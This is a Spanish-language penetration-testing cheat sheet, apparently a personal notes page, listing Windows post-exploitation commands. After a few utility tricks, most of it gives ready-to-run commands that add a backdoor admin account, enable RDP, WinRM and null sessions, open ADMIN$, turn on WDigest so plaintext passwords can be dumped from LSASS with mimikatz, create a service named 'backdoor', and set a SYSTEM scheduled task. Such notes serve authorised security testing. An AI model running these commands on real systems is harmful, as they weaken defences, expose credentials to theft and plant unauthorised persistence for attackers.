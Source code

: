 - Saber si estamos ante cmd ó powershell: 
	```powershell
	(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
	```
- Comprobar arquitectura de Windows
	- Sin privilegios: 
		```powershell
		$env:PROCESSOR_ARCHITECTURE	
		```
	- Con privilegios
		```powershell
		(Get-CimInstance Win32_OperatingSystem).OSArchitecture
		```
- Convertir en archivo de texto, supongamos `infoMimikatz`, con formato grepeable correcto (a veces la extracción de mimikatz da problemas)
	```bash
	dos2unix infoMimikatz
	# si no funciona
	dos2unix -f infoMimikatz
	```
- Convertir a teclado en español
	```powershell
	Set-WinUserLanguageList -LanguageList es-ES -Force
	```

## Con acceso de administrador a un sistema Windows
### Crear un usuario persistente con permisos de administrador
- **Crear un usuario:**
    ```powershell
    net user pentester StrongP@ssword123 /add
    ```
- **Añadir el usuario al grupo de administradores:**
    ```powershell
    net localgroup Administrators pentester /add
    ```
### Habilitar RDP (Escritorio Remoto)
- Habilitar RDP con `nxc`
	```bash
	nxc smb $IP -u administrator -p pass123 -M rdp -o ACTION=enable
	```
- **Habilitar conexiones RDP:**
    ```powershell
    # Desde CMD
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    # Desde powershell
    Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

    ```
- **Configurar el Firewall para permitir tráfico RDP:**
    ```powershell
    netsh advfirewall firewall set rule group="remote desktop" new enable=yes
    ```
### Activar el Modo Admin Restricto (Restricted Admin Mode para RDP)
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```
### Evitar restricciones con `LocalAccountTokenFilterPolicy`
Permite que las cuentas locales se autentiquen remotamente y conserven sus privilegios administrativos sin restricciones adicionales. Útil para herramientas como `psexec` o `impacket-psexec`, ya que elimina limitaciones predeterminadas que podrían bloquear RCE. 
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
### Habilitar y configurar `psexec` y herramientas basadas en SMB
Para operaciones administrativas avanzadas, como el uso de herramientas como `psexec`, **ADMIN$ debe estar habilitado**
- **Habilitar el servicio ADMIN$ (si está deshabilitado):**
    ```powershell
    sc config lanmanserver start= auto
    sc start lanmanserver
    ```
- **Abrir ADMIN$ para autenticación remota:**
    ```powershell
    net share ADMIN$=C:\Windows /grant:Administrators,FULL
    ```
### Habilitar PowerShell Remoting
Habilita WinRM automáticamente
```powershell
Enable-PSRemoting -Force
```
### Habilitar WinRM (para autenticación remota con PowerShell y herramientas como Evil-WinRM)
```powershell
winrm quickconfig -force
```
Solo los administradores podrán conectarse, si queremos que se pueda conectar cualquier usuario, hay que añadirlo al grupo `Remote Management Users`
### Añadir a un usuario al grupo `Remote Management Users` -> permite acceso vía evilwinrm
```
# Powershell
Add-LocalGroupMember -Group "Remote Management Users" -Member nombre_usuario
# cmd
net localgroup "Remote Management Users" nombre_usuario /add
```

### Configurar autenticación sin contraseña (null sessions)
- **Deshabilitar restricciones de null sessions:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d "C$\IPC$" /f
    ```
- **Opcional: Permitir null sessions a nivel de usuario:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RestrictNullSessAccess /t REG_DWORD /d 0 /f
    ```

### Habilitar autenticación WDigest (credenciales en texto claro en memoria)
Configura el sistema para almacenar credenciales en texto plano en memoria (LSASS). Si tras habilitar WDigest un usuario se conecta autentica en el sistema, tras volcar la sam, podremos extraer credenciales en texto claro con `sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### Configurar un servicio persistente con acceso remoto
```powershell
sc create backdoor binpath= "cmd.exe /k start cmd.exe" start= auto
```
### Habilitar credenciales almacenadas para acceso remoto
- Permite el uso de credenciales almacenadas para establecer conexiones remotas
	```powershell
	reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableDomainCreds /t REG_DWORD /d 0 /f
	```
- Después de esta configuración se pueden utilizar comandos como 
	```powershell
	cmdkey /add:target_machine /user:admin_user /pass:password123
	```
	Y conectarnos al sistema de manera remota sin tener que proporcionar credenciales nuevamente (facilita escenarios en los que el Double Hop puede limitar el acceso)
### Configurar una tarea programada maliciosa
- **Crear una tarea:**
    ```powershell
    schtasks /create /tn "PentestTask" /tr "cmd.exe /c whoami > C:\users\public\whoami.txt" /sc onlogon /ru SYSTEM
    ```
